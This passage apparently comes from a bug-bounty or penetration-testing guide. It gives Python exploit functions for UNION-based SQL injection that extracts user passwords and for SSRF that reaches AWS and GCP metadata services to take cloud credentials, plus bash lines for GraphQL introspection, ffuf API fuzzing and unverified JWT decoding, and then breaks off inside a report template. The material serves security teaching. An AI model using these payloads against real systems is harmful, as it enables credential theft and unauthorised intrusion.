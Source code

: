 ### Server-Side Exploitation
```python
# SQL injection exploitation example
def exploit_sql_injection(url, param, payload):
    """
    Demonstrate SQL injection with data extraction
    """
    injection_payload = f"' UNION SELECT username,password FROM users--"
    response = requests.get(url, params={param: injection_payload})
    
    if "admin:" in response.text:
        return {"status": "success", "data": extract_users(response.text)}
    return {"status": "failed"}

# SSRF exploitation for cloud metadata
def exploit_ssrf_aws(ssrf_endpoint):
    """
    Exploit SSRF to access AWS metadata service
    """
    metadata_urls = [
        "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
    ]
    
    for url in metadata_urls:
        response = make_ssrf_request(ssrf_endpoint, url)
        if response and "AccessKeyId" in response:
            return {"status": "critical", "credentials": response}
```

### API Security Testing
```bash
# GraphQL introspection and exploitation
echo 'query IntrospectionQuery { __schema { queryType { name } } }' | \
  curl -X POST -H "Content-Type: application/json" \
  -d @- https://target.com/graphql

# REST API enumeration
ffuf -w /path/to/wordlist.txt -u https://api.target.com/FUZZ \
  -H "Authorization: Bearer TOKEN" -mc 200,201,202,204,301,302,307,401,403

# JWT token manipulation
echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..." | \
  python3 -c "import jwt, sys; print(jwt.decode(sys.stdin.read().strip(), verify=False))"
```

## Bug Bounty Report Template

### Vulnerability Report Structure
```markdown
# [Vulnerability Type] in [Component/Endpoint]

## Summary
Brief description of the vulnerability and its impact

## Vulnerability Details
**Vulnerability Type**: [OWASP Category]
**Severity**: Critical/High/Medium/Low
**Affected Component**: [URL/API endpoint/Feature]
**Authentication Required**: Yes/No

## Steps to Reproduce
```